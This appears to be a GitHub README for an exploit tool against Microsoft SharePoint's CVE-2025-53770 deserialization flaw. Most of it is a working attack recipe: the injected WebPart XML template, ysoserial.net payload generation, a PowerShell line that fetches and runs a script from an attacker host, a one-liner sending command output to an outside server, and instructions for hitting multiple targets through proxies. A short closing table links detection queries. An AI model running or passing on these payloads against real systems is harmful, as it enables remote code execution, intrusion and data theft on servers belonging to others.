 # SharePoint WebPart Injection Exploit Tool


| Field               | Value                                                                 |
|--------------------|-----------------------------------------------------------------------|
| **Component**       | Microsoft SharePoint (on-premises)                                    |
| **Endpoint**        | `/layouts/15/ToolPane.aspx`                                           |
| **Parameter**       | `MSOTlPn_DWP`                                                         |
| **Injected Control**| `<Scorecard:ExcelDataSet CompressedDataTable="...">`                 |
| **Vulnerability**   | Insecure deserialization (`BinaryFormatter`, `LosFormatter`, etc.)    |
| **CVE**             | [CVE-2025-53770](https://nvd.nist.gov/vuln/detail/CVE-2025-53770)     |
| **NOTICE**          | [MSRC](https://msrc.microsoft.com/blog/2025/07/customer-guidance-for-sharepoint-vulnerability-cve-2025-53770/)  |
---

## How It Works

<p align="center">
  <img src="exploit-flow.png" />
</p>

1. Authenticated users can send POST requests to `/_layouts/15/ToolPane.aspx?DisplayMode=Edit`.

2. The request includes the parameter `MSOTlPn_DWP`, containing an injected **WebPart XML**.

3. Inside the WebPart, the attacker places a `<Scorecard:ExcelDataSet>` component with the `CompressedDataTable` attribute holding a payload:
- Serialized .NET object
- Encoded in Base64
- Compressed using GZIP

4. SharePoint automatically **inflates** and **deserializes** the object using unsafe formatters.

5. If the object contains a valid **gadget chain** (e.g., `ObjectDataProvider`), **arbitrary code** is executed on the server.

## Requirements

- Python 3.x
- Required Python modules:
```bash
pip install -r requirements.txt
```

* A Base64 GZIP-compressed .NET deserialization payload (see next section)

The payload must be:

* A `.NET DataSet` or similar gadget chain
* Serialized using `LosFormatter` or `BinaryFormatter`
* Base64-encoded
* GZIP-compressed
* Embedded inside this WebPart structure:

```xml
<asp:UpdateProgress ID="UpdateProgress1" runat="server" AssociatedUpdatePanelID="upTest">
  <ProgressTemplate>
    <div class="divWaiting">
      <Scorecard:ExcelDataSet CompressedDataTable="{PAYLOAD}" DataTable-CaseSensitive="false" runat="server" />
    </div>
  </ProgressTemplate>
</asp:UpdateProgress>
```

---

## Generating Payloads (Using `ysoserial.net`)

### Generate the base64 serialized object

```bash
cd ysoserial.net

# compile from source or use Dockerfile

ysoserial.exe -f LosFormatter -g ObjectDataProvider -o base64 -c "calc.exe" > payload.b64
```

> You can replace `calc.exe` with any command — for example, a reverse shell.

---

## Generating Payloads with `YSLosf`

### Step 1: Create Payload File

Put your command (e.g., reverse shell) into `payload.txt`:

```powershell
powershell -nop -c iwr http://attacker/shell.ps1 | iex
```

### Step 2: Generate Base64 Payload

```bash
C:\Users\darkarmy\Desktop\YSLosf\bin\x64\Debug\net48>.\YSLosf.exe --p payload.txt
Serialized string:
/wEFBWZsdG1j

Base64 encoded:
L3dFRkJXWnNkRzFq

C:\Users\darkarmy\Desktop\YSLosf\bin\x64\Debug\net48>.\YSLosf.exe -d dpayload.txt
Deserialized object:
fltmc
```

---

### Compress with GZIP

```python
# compress.py
import gzip, base64

with open("base64.txt", "rb") as f:
    b64 = base64.b64decode(f.read())
    gz = gzip.compress(b64)
    # print(base64.b64encode(gz).decode())
    encoded = base64.b64encode(gz).decode()

with open("payload-final.txt", "w") as out_file:
    out_file.write(encoded)
```

> Save the final output into `payload.txt` — this is what you give to the exploit script.

---

## Compatible Gadget Chains

You can use any gadget chain supported by your serialization tool. Common examples include:

* `System.Data.DataSet`
* `System.Data.Services.Internal.ExpandedWrapper`
* `System.Web.UI.LosFormatter`
* `System.Windows.Data.ObjectDataProvider`

> For more, check [ysoserial.net](https://github.com/pwntester/ysoserial.net)

---

## Output / Echo

This vulnerability **does not return command output** like `ipconfig` in the HTTP response. If you want output:

* Use reverse shell payloads
* Or redirect output via `Invoke-WebRequest`:

```powershell
powershell -c "ipconfig | Invoke-WebRequest -Uri http://your-ip:8118/?d=$(Get-Content -Raw)"
```


## Example Usage

```bash
podman build -t toolshell .

podman run -it --name toolshell \
  --cap-add=net_admin \
  --device /dev/net/tun \
  -v /etc/resolv.conf:/etc/resolv.conf:ro \
  -p 127.0.0.1:8118:8118 -p 127.0.0.1:9050:9050 -p 127.0.0.1:9051:9051 \
  -d toolshell

podman exec -it toolshell /bin/bash

# single target
proxychains python3 CVE-2025-53770.py -u https://target -p payload.txt

# multiple targets
proxychains python3 CVE-2025-53770.py -f targets.txt -p payload.txt --proxy http://127.0.0.1:8118
```

### Arguments:

| Argument      | Description                                        |
|---------------|----------------------------------------------------|
| `-u`          | Target URL (e.g., `https://sp.company.local`)      |
| `-f`          | File containing target URLs (one per line)         |
| `-p`          | Payload file or direct Base64 GZIP string          |
| `--proxy`     | Optional proxy (e.g., `http://127.0.0.1:8080`)     |
| `-t`          | Timeout in seconds (default: 15)                   |

## SIEM Detection Queries:

| Field               | Value                                                                 |
|---------------------|-----------------------------------------------------------------------|
| **Elastic**         | [EQL](https://github.com/robert-iw3/threat-hunting/blob/main/elastic-security/CVE-2025-53770.md) |
| **Splunk**          | [SPL](https://github.com/robert-iw3/threat-hunting/blob/main/splunk/CVE-2025-53770.md)           |
| **SentinelOne**     | [S1QL](https://github.com/robert-iw3/threat-hunting/blob/main/sentinel_one/spinstall0.aspx.md)   |
| **Sigma**           | [PostExploit](https://github.com/robert-iw3/threat-hunting/blob/main/sigma/2025/sharepoint_postexploit.yaml) |
| **Sigma**           | [Webshell](https://github.com/robert-iw3/threat-hunting/blob/main/sigma/2025/sharepoint_webshell.yaml)    |
| **MS Sentinel**     | [CVE-2025-53770](https://github.com/robert-iw3/threat-hunting/blob/main/kql/Sentinel/SharePoint%20Vulnerability%20Exploitation%20Attempt%20(CVE-2025-49704%2C%20CVE-2025-49706%2C%20CVE-2025-53770).kql)     |
| **NOTICE**          | [MSRC](https://msrc.microsoft.com/blog/2025/07/customer-guidance-for-sharepoint-vulnerability-cve-2025-53770/)  |
---
